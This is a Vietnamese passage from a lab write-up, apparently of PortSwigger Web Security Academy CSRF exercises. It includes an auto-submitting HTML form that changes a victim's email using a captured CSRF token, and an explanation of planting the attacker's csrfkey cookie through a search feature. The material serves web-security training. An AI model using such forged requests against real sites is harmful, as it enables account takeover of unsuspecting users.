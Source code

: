 - Vậy tôi đã viết một script kết hợp với mã csrf token hiện tại của tôi.

```javascript
  <form action="https://0a7100fb039d9f81ce1a5b4700e30090.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#95;999&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="M1s5glQQq8kFfNIPELORwYqoweiQGbJw" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>

```

> ### **CSRF where token is not tied to user session**

- Đối với bài này tôi đã thử nghiệm một số phương pháp tôi đã thấy ứng với mỗi tài khoản sẽ có cookie `csrfkey` khác nhau, và duy nhất csrf token nếu mình thay đổi csrf token của tài khoản khác vẫn không thể thay đổi email. Vậy tôi đã thử thay đổi `csrfkey` của tài khoản khác thì có thể thay đổi email hay không. Nhưng điều ấy vẫn không hoàn toàn thành công nhưng tôi đã thử thay đổi `csrfkey` và `csrf token` đến từ tài khoản `carlos` vào tài khoản `wiener` thì vẫn có thể thay đổi tài khoản email tài khoản `wiener`. Chính vì điều đó, tôi đã viết một script để thay đổi email người dùng khi nhập vào link với csrf token và csrfkey của tôi. Vấn đề tôi tìm thấy ở đây là trang web nhận biết request của người qua `session_cookie` đồng thời kiểm tra xem csrf token và csrfkey là một cặp nhất định. Nhưng khi một session cookie được tạo ra thì csrfkey được tạo ra vậy nhiệm vụ của mình là làm sao injection csrfkey của mình cho nạn nhân.

- Tôi đã thử chức năng search+thêm csrfkey vào đó thì tôi thấy mình có thể thay đổi csrfkey của mình.

![](./img_csrf/csrf-4.png)
